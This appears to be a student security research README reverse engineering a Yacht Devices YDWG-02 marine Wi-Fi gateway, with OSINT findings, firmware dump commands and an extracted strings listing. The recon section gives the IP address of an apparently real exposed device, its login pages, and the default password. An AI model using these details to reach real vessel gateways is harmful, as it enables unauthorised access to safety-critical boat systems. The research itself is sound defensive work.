




# Penetration Testing and Reverse Engineering of [Yacht Devices](https://www.yachtd.com/) NMEA 2000 Wifi Gateway

## Table of Contents
- [Penetration Testing and Reverse Engineering of Yacht Devices NMEA 2000 Wifi Gateway](#penetration-testing-and-reverse-engineering-of-yacht-devices-nmea-2000-wifi-gateway)
  - [Table of Contents](#table-of-contents)
  - [0. Background, Objective, and Reconnaissance](#0-background-objective-and-reconnaissance)
    - [0.1 National Marine Electronics Association](#01-national-marine-electronics-association)
    - [0.2 Marine Gateways](#02-marine-gateways)
    - [0.3 Objective](#03-objective)
    - [0.4 YDWG-02: The Wireless Gateway to Remote Control of Marine Systems](#04-ydwg-02-the-wireless-gateway-to-remote-control-of-marine-systems)
  - [1.4.1 Reconnaissance and Open Source Intelligence](#141-reconnaissance-and-open-source-intelligence)
  - [1. Reverse Engineering and Penetration Testing](#1-reverse-engineering-and-penetration-testing)
    - [1.1 Physical Hardware](#11-physical-hardware)
    - [1.2 Firmware Analysis](#12-firmware-analysis)
      - [1.2.1 Update File](#121-update-file)
    - [1.2.2 Attempt at Dumping the STM32 Firmware](#122-attempt-at-dumping-the-stm32-firmware)
      - [1.2.3 Attempt at Dumping the ESP8285 Firmware](#123-attempt-at-dumping-the-esp8285-firmware)
    - [1.2.4 Dumping the firmware](#124-dumping-the-firmware)
    - [1.3 Network Scanning](#13-network-scanning)
  - [2. Exploitation and Vulnerabilities](#2-exploitation-and-vulnerabilities)
    - [2.1 NMEA 0183 Spoofing](#21-nmea-0183-spoofing)
  - [2.2 NMEA 2000 Spoofing](#22-nmea-2000-spoofing)
    - [2.3 Web Application Analysis](#23-web-application-analysis)
      - [2.3.1 Burp Suite](#231-burp-suite)
      - [2.3.1.1 Authentication Bypass](#2311-authentication-bypass)
      - [2.3.1.2 Sniffing Access Point Credentials](#2312-sniffing-access-point-credentials)
      - [Cloud Application](#cloud-application)
    - [2.3.2 OWASP ZAP](#232-owasp-zap)
      - [2.2.2.1 XSS Vulnerability](#2221-xss-vulnerability)
      - [2.2.2.2 Clickjacking Vulnerability](#2222-clickjacking-vulnerability)
      - [2.2.2.3 API Vulnerabilities](#2223-api-vulnerabilities)
    - [2.3.3 Cookie Injection](#233-cookie-injection)
  - [2.4 TCP connection exaustion attacks (SYN flood)](#24-tcp-connection-exaustion-attacks-syn-flood)
  - [2.5 Web Sockets](#25-web-sockets)
  - [3 Summary](#3-summary)
    - [3.1 Attack Path (CAPECs)](#31-attack-path-capecs)
    - [3.2 Weakness Enumeration (CWEs)](#32-weakness-enumeration-cwes)
  - [5. Mitigations and Recommendations](#5-mitigations-and-recommendations)
- [FAQ](#faq)

> Note: This repo uses git lfs for large files, make sure to have it installed: https://git-lfs.com/

> Note: This research was conducted in partial completion of the Systems Engineering Cybersecurity Courses (SYSE-548, SYSE-569) and the Systems Engineering M.S. degree at [Colorado State University](https://www.colostate.edu/). Please see [misc](./assets/misc/) for related course work.

## 0. Background, Objective, and Reconnaissance

### 0.1 National Marine Electronics Association

The National Marine Electronics Association (NMEA) has developed standards for the communication subsystems of boats, including:

1. A legacy serial data standard (RS-422/RS-232) for one-talker, many-listener systems, using ASCII “sentences” (e.g., GPS, AIS, autopilots) [[NMEA 0183](https://www.nmea.org/nmea-0183.html)].
2. A CAN-bus-based marine network standard (multi-talker/listener) using binary messages (PGNs) for instrumentation, engines, and navigation systems [[NMEA 2000](https://www.nmea.org/nmea-2000.html)].
3. An Ethernet/IPv6-based next-generation standard designed for high-bandwidth marine systems (video, radar, large sensor networks), compatible with earlier NMEA standards via gateways [[NMEA OneNet](https://www.nmea.org/nmea-onenet.html)].

### 0.2 Marine Gateways

In the marine vessel systems context, a gateway is a device (or module) that allows two (or more) different data networks or protocols to communicate onboard a boat or ship. It “translates” or bridges between legacy and modern systems so data from sensors, instruments, engines, etc., can be integrated and shared. For example, a legacy instrument using one protocol might need to feed data into a network that uses a newer standard.

Such gateways are increasingly important because marine vessels often have a mix of equipment (navigation, engine, sensors, legacy/old and new) and standards evolve over time.

A few examples on the market at the time of this study include:

1. The [NGX-1](https://actisense.com/products/nmea-2000-gateway-ngx-1/) from Actisense, which features conversions from NMEA 2000, 0183, and a PC interface.  
2. The [YDWN-02](https://www.yachtd.com/products/wifi_0183_gateway.html) WiFi Gateway, which features NMEA 0183 to a PC interface.  
3. The [Maretron J2K100](https://www.maretron.com/products/j2k100-j1939-to-nmea-2000-gateway/), which includes support for converting medium-to-heavy-duty protocols such as SAE J1939 to NMEA 2000.

### 0.3 Objective

With the background on NMEA standards and the role of marine gateways established, the objective of this study is to reconstruct and verify a marine gateway’s structure, behavior, and security properties. Because vessels often mix older and newer systems, and the standards continue to evolve, this work also aims to clarify how gateways function today and provide a starting point for developing improved marine Internet-of-Things (IoT) systems.

Studies examining shipboard wireless networks have demonstrated that poorly configured or unsegmented wireless gateways can be exploited through rogue access points, man-in-the-middle attacks, and interception of crew or onboard device traffic. These findings highlight that vulnerabilities often arise not from exotic zero-day flaws but from weak authentication, default credentials, outdated firmware, and insecure bridging between IT and OT domains. However, what these studies fail to highlight is a real-world cyber-physical gateway, from the IT domain to the OT domain. This study increases the confidence in these findings by applying real-world threat and mitigation approaches.

### 0.4 [YDWG-02](https://www.yachtd.com/products/wifi_gateway.html): The Wireless Gateway to Remote Control of Marine Systems

The system of interest for this case study is a marine wireless gateway: a thumb-sized device that bridges NMEA 2000, NMEA 0183, and RAW protocol streams over 2.4 GHz Wi-Fi. It enables bidirectional data flow between onboard sensors and tablets, supporting applications such as OpenCPN, Navionics, and Signal K. The gateway can also interface with Raymarine SeaTalk NG autopilot computers, offering both data visualization and control. This gateway is the YDWG-02.

The manufacturer reported rapid growth since its founding in 2014. By late 2017, the company noted a 500% increase in sales over 2016. In 2018 they announced they had sold 3× more units than in 2017 and expanded to a network of about 40 dealers worldwide. Even during the pandemic and semiconductor shortages, demand grew: sales in 2021 were 26% higher than 2020 and 44% higher than 2019. Although exact unit counts were not disclosed, these growth rates imply a substantial user base. If sales were in the low hundreds in 2016, a 5× jump by 2017 and 3× by 2018 would put annual units in the thousands by 2018. With continued double-digit growth through 2021, it is reasonable to estimate total YDWG-02 devices in circulation in the high thousands (possibly approaching the low tens of thousands) globally by the mid-2020s, though exact figures remain proprietary. The company’s year-end reports also mention OEM projects and use by charter or fleet companies, implying these devices are not only DIY aftermarket gadgets but are finding their way into professional deployments on commercial or rental vessels as well [https://www.yachtd.com/news/].

Its operational domain includes small to medium recreational and commercial vessels, many of which integrate this device for navigation, telemetry, and cloud-based tracking. Despite its growing market share since 2014, several legacy security and documentation shortcomings persist, particularly the use of default passwords, the absence of encryption in transit, and broken access control. Its relevance lies in that it is both an IoT node and a safety-critical control point. It presents an accessible and verifiable test platform in that it uses off-the-shelf components and provides observable network behaviors through Wi-Fi and CAN-based marine buses.

## 1.4.1 Reconnaissance and Open Source Intelligence

Information was gathered from multiple open and technical resources. To start, the device included a vendor-supplied user manual published on the manufacturer website, which documents device operation, Wi-Fi defaults, server ports, RAW protocol format, and the firmware update procedure (WUPDATE.BIN). The manual’s Appendix E explicitly describes the RAW message format used to convey NMEA-2000 frames over TCP/UDP, and several sections give the default network configuration (SSID “YDWG”, default password “12345678”, web UI at http://192.168.4.1, and default NMEA server port 1456) which were essential to reproducing normal operation and test setups.

Beyond the manual, community forums, developer notes, and open-source tooling documentation provided practical guidance for firmware extraction and protocol decoding; these sources also surfaced real-world use cases for the gateway and common misconfiguration patterns [https://forums.sailboatowners.com/threads/latest-on-nmea-to-wifi.1249937655/]. Internet footprinting (Shodan) [queries](https://www.shodan.io/search?query=ydwg) located instances of the gateway accessible on the public Internet, confirming that factory configuration and exposed services are not purely theoretical attack vectors.



http://76.14.134.193/login.html



http://76.14.134.193/g.html





> Note: this research is in an effort to SECURE these gateways, not to exploit them. The above screenshots are provided for educational purposes only. The actual coordinates of the screenshots indicate this vessel may not be in the water at the time of capture, but it's important to note the privacy concern.

Part of the reconnaissance phase includes understanding (as closely as possible) normal operation. Given the manufacturer provided the manual for the device, it was straightforward to deduce the expected default network and protocol behaviors (Access Point mode vs. Client mode, server port assignments, RAW/NMEA mapping rules, and logging/diagnostics endpoints).

## 1. Reverse Engineering and Penetration Testing

### 1.1 Physical Hardware

Front Side 


Back Side


After taking a look at the front side of the PCB, we can see that the device is using an [STM32F105RBT6](./assets/pdfs/en.CD00220364.pdf).

### 1.2 Firmware Analysis

#### 1.2.1 Update File

File: [WUPDATE.BIN](./assets/WUPDATE/WUPDATE.BIN) comes from v1.72 of the firmware, and is the update file for the device, publicly available on the manufacturer's website.

Running binwalk gives us nothing:
```
binwalk WUPDATE.BIN

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
```
Evaluating the entropy of the file:

```
binwalk -E WUPDATE.BIN

DECIMAL       HEXADECIMAL     ENTROPY
--------------------------------------------------------------------------------
0             0x0             Rising entropy edge (0.972447)
120832        0x1D800         Rising entropy edge (0.977437)
```

This means that the file is either encrypted or compressed.

Let's take a look at the strings in the file:

```
strings WUPDATE.BIN | head
YDMG
1.72
*E$F
:KYb
qo7r&
!(hY}
@hK!W
dBQ1
N}*n
-#`hq
```
And again, we get nothing, but some random gibberish, and very few strings that make sense (like the version number).

Even over the WiFi update process, the firmware still seems encrypted or compressed (see [./assets/pcap](./assets/pcap/))


> Note: this research is still ongoing, and attempts to understand the update mechanisms are still in progress. As of righting this, the devices seems to SLIP (serial line internet protocol) update packets from the ESP8266 (serving the web portal), to the STM32F (the main controller).

### 1.2.2 Attempt at Dumping the STM32 Firmware

There are SWD test pads that can be seen on the device:


The chip success fully connected to a computer when using the [STM32CubeProgrammer](https://www.st.com/en/development-tools/stm32cubeprog.html); however, the manufacturers had set readout proctection on the STM32. If an attempt was made to read the firmware, it would be blocked, and if an attempt to change the RDP bit was set, it would wipe the memory of the STM32. You can see the log that made me cry [here](./assets/re/attempt-at-dumping-firmware-stm32.log).

#### 1.2.3 Attempt at Dumping the ESP8285 Firmware

Was a success!

Found boot logs after performing a chip off, with the following pins connected:
ESP8285 Pin | Serial Adapter
|----------------|----------------|
VCC (3.3V) | 3.3V
GND | GND
TXD | RX
RXD | TX
GPIO0 | GND (for bootloader mode)
EN (RST) | 3.3V (pulled-up)

> Note: more detail about the specific chip can be found in the [ESP8285 datasheet](./assets/pdfs/0a-esp8285_datasheet_en.pdf) or the [ESP-M2 datasheet](./assets/pdfs/3413969-user-manual.pdf).


And after that, I got to enabling the bootloader mode, and dumping the firmware:


### 1.2.4 Dumping the firmware

The command in the image above didn't get me far, until I did the following:

Ran this command to extract the flash instead:
```
esptool.py -p PORT -b 115200 read_flash 0 ALL flash_contents.bin
```
> https://docs.espressif.com/projects/esptool/en/latest/esp8266/esptool/basic-commands.html

A copy of the firmware is available at [./assets/re/flash_contents.bin](./assets/re/flash_contents.bin).

Then I ran this command to get information about the firmware:
```
esptool image_info flash_contents.bin

esptool.py v4.8.1
File size: 2097152 (bytes)
Detected image type: ESP8266
Image version: 1
Entry point: 40100438
3 segments

Segment 1: len 0x00968 load 0x40100000 file_offs 0x00000008 [IRAM]
Segment 2: len 0x00308 load 0x3ffe8000 file_offs 0x00000978 [DRAM]
Segment 3: len 0x00278 load 0x3ffe8310 file_offs 0x00000c88 [DRAM]
Checksum: d8 (valid)
```

> This link provides information about the memory map of the ESP8266: https://github.com/esp8266/esp8266-wiki/wiki/Memory-Map

[Someone already wrote a python2.7 to extract the memory locations from the ESP8266 firmware](./assets/re/esp8266_parser_v1.py) so that we can plug the memory map into ghidra:

```bash
python2.7 esp8266_parser_v1.py flash_contents.bin > flash_contents.mem
```
To view the memory map of this device, see [./assets/re/flash_contents.mem](./assets/re/flash_contents.mem).

A string dump of the file gives us the following (which as also available at [./assets/re/flash_contents.strings](./assets/re/flash_contents.strings)):

```
YDWG
d033e22ae348aeb5660fc2140aec35850c4da997
2.0.0(5a875ba)
 @\&!@
$!@ %!@
%!@$&!@YD CLOUD: Response:
 !"#
 !"#
%s %u
DHCP timeout
@ip_router %d %p
dhcps_start(): could not obtain pcb
err in host connected (%s)
espconn_tcp_delete %d, %d
RecvHold, By pespconn,find conn_msg fail
%s %d
ringbuf_memcpy_from
ringbuf_memcpy_into
ringbuf_nextp
ringbuf_memset
ringbuf_findchr
ringbuf_free
Heap: %ld
*FAILED*
** %s
Flash config restore %s
HTTP port is: %d
Reset cause: %d=%s
exccause=%d epc1=0x%x epc2=0x%x epc3=0x%x excvaddr=0x%x depc=0x%x
Flash map %s, manuf 0x%02X chip 0x%04X
** %s: ready, heap=%ld
Setting max allowed tcp connections: %d
Maximum allowed connections: %d
initializing user application
Waiting for work to do...
1.74
/login
/menu
/version
/serial/setserial
/filters/getfilters
/filters/setfilter
/admin/changepassword
/flash/upload
/flash/reboot
/flash/lasterror
/websocket/nmea.cgi
/wifi/info
/wifi/scan
/wifi/connect
/wifi/connstatus
/wifi/setmode
/wifi/special
/wifi/apinfo
/wifi/apchange
/system/info
/system/update
/system/rundiag
/cloud/reset
/system/memory
/nmea_settings/settings
/nmea_settings/update
/settings/settings
/nmea_settings/ydap
/settings/update
/settings/upd_ti
/settings/upd_xdr
/settings/logging
/settings/upd_ul
/settings/upd_dl
/settings/upd_li
/settings/run_calibration
/home.html
/client.html
/point.html
/server.html
/admin.html
/flash.html
/setsn.html
/filters.html
false
true
Not found
Found, CAN address %d
{ "address": "%s", "mode": "%s", "progress": "%d", "limits": "%s", "rudder": "%s", "vessel": "%s", "compass": "%s"}
{ "server": [
{ "id": "%d", "type": "%d", "protocol": "%d", "port": "%d", "direction": "%d", "enabled": "%s"}%s
],"hardware": "1.00"}
Refreshing settings, try one more time
{ "interval": "%d", "points" : %d, "priority" : %d, "dataset" : %d, "distance" : "%s", "range" : %d, "key" : "%s", "status" : "%s", "has_points" : "%s"}
cleandb
interval
dataset
priority
distance
XDR settings requested
{"autopilot":{"ray_autopilot":"%s","wpt_confirm":"%s","rmb_n2k_var":"%s","yd_autopilot":"%s"},"talkerid":"%c%c","windcalc":"%d","xdr":{
Failed to save config
ray_autopilot
wpt_confirm
rmb_n2k_var
yd_autopilot
can_speed
windcalc
talker_id
ns_type0
ns_protocol0
ns_port0
ns_direction0
ns_enabled0
ns_type1
ns_protocol1
ns_port1
ns_direction1
ns_enabled1
ns_type2
ns_protocol2
ns_port2
ns_direction2
ns_enabled2
?sea baro_p baro_b air_t ins_t air_h ins_h exhaust p_boost s_boost p_hours s_hours p_volt s_volt p_temp s_temp p_rate s_rate yaw pitch roll
Calibration is in progress
Compass calibration is in progress
Vessel parameters calibration is in progress
Rudder calibration is in progress
Rudder limits calibration is in progress
Ready
?HTTP/1.0 200 OK
Server: YDWG
Connection: close
Content-Type: text/plain
HTTP/1.0 200 OK
Server: YDWG
Connection: close
Content-Type: text/html; charset=UTF-8
Cache-Control : max-age=30
keep-alive
close
upload.yachtd.com
/u.php
POST %s HTTP/1.1
Host: %s
Connection: %s
Content-Type: application/octet-stream
Content-Transfer-Encoding: Binary
Content-Length: %d
Content-Disposition: attachment; filename="00%08X.bin"
255.255.255.255
NMEA 0183
Memory
Debug
enabled
disabled
NMEA SERVER[%d]: %s, %s, %d, %d, %s
WSK[0] RX:
SRV[0] RX:
N2000:
</html>
SRV[0] TX:
YDCLOUD:
YD CLOUD: Connected with the server
YD CLOUD: DNS record for the server is not found
YD CLOUD: Connecting to %d.%d.%d.%d server...
YD CLOUD: Connecting (DNS: %d.%d.%d.%d, %d.%d.%d.%d)...
YD CLOUD: Clean up...
%sHTTP: conn pool overflow!
%d.%d.%d.%d:%d
HTTP/1.0 302 Found
Server: YDWG
Connection: close
Location: %s
Redirecting to %s
ERROR
HTTP/1.0 %d %s
Server: YDWG
Connection: close
Switching Protocols
HTTP/1.1 %d %s
Server: YDWG
%s: %s
HTTP/1.0 404 Not Found
Connection: close
Content-Type: text/plain
Content-Length: 12
Not Found.
%shandler for %s returned invalid result %d
GET
POST
Content-Type:
multipart/form-data
boundary=
Content-Length:
text/htm
text/html; charset=UTF-8
text/css
text/javascript
text/plain
image/jpeg
image/png
text/html
?Accept-Encoding
Content-Type
gzip
Content-Encoding
max-age=3600, must-revalidate
Cache-Control
SLIP: bad CRC, crc=%04x rcv=%04x len=%d
\%02X
UART framing error (bad baud rate?)
UART %d baud
UART: max cb count exceeded
cmdGetCbByName: cb %s not found
wifiCb
NULL
SYNC
WIFI_STATUS
ADD_CB
NMEA_GETSERVERS
NMEA_SEND
STM_LOG
STM_SET_TIME
STM_REQ_WIFIMODE
STM_GET_SERIAL
FILTER_GETFILTERS
CMD_STM_REQ_PING
CMD_STM_GET_STATISTICS
CMD_XDR_GET_RESP
CMD_FLASH_RESP
CMD_LOGGING_RESP
CMD_YACHTD_CONNECT
CMD_YACHTD_DATA
CMD_YD_AUTOPILOT
?\Q!@
?HS!@
?dQ!@
Q!@2
&!@3
?\.!@F
?D^!@W
?``!@j
?h5!@M
@no-cache, no-store, must-revalidate
no-cache
Pragma
Expires
application/json
Value for %s too long (%d > %d allowed)
Value for %s out of range
Invalid value for %s
{ "menu": [ "Home", "/home.html", "Wi-Fi Client", "/client.html", "Wi-Fi Access Point", "/point.html", "NMEA Server", "/servers.html", "NMEA Filters", "/filters.html", "NMEA Settings", "/settings.html", "Logging", "/logging.html", "Administration", "/admin.html", "Firmware Update", "/flash.html" ], "name": "%s" }
{ "version": "%s", "sn": "%s", "hardware": "1.00", "build": "%u" }
session=
admin
session
%s=%s; path=/; expires=Tue, 7 Apr 2038 12:25:10;
Set-Cookie
Failed to authenticate
/login.html
%s?r=%s
401 Unauthorized
%s=%s; path=/; expires=Tue, 7 Apr 2038 12:25:11;
Failed to change password
Filters are empty
{ "filters": [
{ "server": "%d", "protocol": "%d", "filter": "%d", "type": "%d", "data": "
server
protocol
type
addr
Wrong request
Wrong address
Refresh
Refreshing to get data...
Request error, try to refresh the page
0x%08X:
%02X
Firmware image too large
Invalid request
Buffering problem
Invalid firmware header
Version of uploaded firmware is less or equal current version
Diagnostics run
Content-Length
DONE
name
http_port
user2.bin
user1.bin
{ "name": "%s", "http_port": "%d", "reset cause": "%d=%s", "size": "%s", "upload-size": "%d", "id": "0x%02X 0x%04X", "partition": "%s"  }
512KB:256/256
256KB
1MB:512/512
2MB:512/512
4MB:512/512
2MB:1024/1024
4MB:1024/1024
normal
wdt reset
exception
soft wdt
restart
deep sleep
external
Sec-WebSocket-Key
258EAFA5-E914-47DA-95CA-C5AB0DC85B11
websocket
Upgrade
upgrade
Connection
Sec-WebSocket-Accept
GET scan: cgiData=%d noAps=%d
{"essid": "%s", "rssi": %d, "enc": "%d"}%c
 "result": {
"inProgress": "1"
{"result": {"inProgress": "0", "APs": [
Can not get IP address, mode %d
Can't associate to an AP en SoftAP mode
essid
passwd
Cannot parse ssid or password
dhcp
staticip
staticnetmask
staticgateway
staticdns
savemode
Request is missing fields
Cannot parse static IP config
{"url": "http://%d.%d.%d.%d"}
{"url": "http://%s"}
apply
{ "ap_ssid": "%s", "ap_password": "%s", "ap_authmode": %d, "ap_maxconn": %d, "ap_beacon": %d, "ap_hidden": "%s"  }
"mode": "%s", "modechange": "%s", "ssid": "%s", "status": "%s", "phy": "802.%s", "rssi": "%ddB", "warn": "%s",  "apwarn": "%s", "mac":"%02x:%02x:%02x:%02x:%02x:%02x", "chan":"%d", "apssid": "%s", "appass": "%s", "apchan": "%d", "apmaxc": "%d", "aphidd": "%s", "apbeac": "%d", "apauth": "%s","apmac":"%02x:%02x:%02x:%02x:%02x:%02x"
, "ip": "%d.%d.%d.%d"
, "netmask": "%d.%d.%d.%d"
, "gateway": "%d.%d.%d.%d"
, "hostname": "%s"
, "ip": "-none-"
, "staticip": "%d.%d.%d.%d"
, "staticgateway": "%d.%d.%d.%d"
, "staticnetmask": "%d.%d.%d.%d"
, "staticdns": "%d.%d.%d.%d"
, "dhcp": "%s"
unspecified
"reason": "%s",
"x":0}
ap_ssid
ap_password
SSID not valid or out of range
Setting AP password len=%d
ap_authmode
PASSWORD not valid or out of range
Forcing AP authmode to WPA_WPA2_PSK
Setting AP authmode=%d
ap_maxconn
ap_channel
ap_beacon
ap_hidden
success
fail
STA config---->
 ssid: %s
 password: %s
 bssid_set: %d
 bssid: %02X:%02X:%02X:%02X:%02X:%02X
AP config---->
 ssid: %s
 password: %s
 ssid_len: %d
 channel: %d
 authmode: %d
 ssid_hidden: %d
 max_connection: %d
 beacon_interval: %d
WiFi mode: %d
YDWG
12345678
Wifi Soft-AP parameters change: %s
OPEN
WPA/PSK
WPA/WPA2/PSK
<a href=\"#\" onclick=\"changeWifiMode(2)\">Switch to Access Point mode</a>
<a href=\"#\" onclick=\"changeWifiMode(3)\">Start Wi-Fi networks scan</a>
<a href=\"#\" onclick=\"changeWifiMode(2)\">Click to stop</a> Wi-Fi scanning
Connecting...
Wrong password
Network not found
Failed
Connected
Client Mode
Access Point
Scan...
Authentication timeout
auth_leave
assoc_expire
assoc_toomany
Not authenticated
not_assoced
assoc_leave
assoc_not_authed
disassoc_pwrcap_bad
disassoc_supchan_bad
ie_invalid
mic_failure
4way_handshake_timeout
group_key_update_timeout
ie_in_4way_differs
group_cipher_invalid
pairwise_cipher_invalid
akmp_invalid
unsupp_rsn_ie_version
invalid_rsn_ie_cap
802.1x authentication failed
cipher_suite_rejected
beacon_timeout
Access Point is not found
?%06x
************ESP Flash Config***************
Sequence: %d
Magic: 0x%04x
Crc: 0x%04x
Hostname: %s
Http port: %d
Static ip: %d.%d.%d.%d
Netmask: %d.%d.%d.%d
Gateway: %d.%d.%d.%d
DNS: %d.%d.%d.%d
Log mode: %d
Max tcp connections: %d
*******************************************
unknown
************ESP Information***************
FW: %s, heap=%ld
Wifi mode: %s
Status: %s
PHY: %s
RSSI: %ddB
APSSID: %s
AP Channel: %d
AP Max connections: %d
APSSID Hidden: %s
AP Beacon interval: %d
AP Auth mode: %s
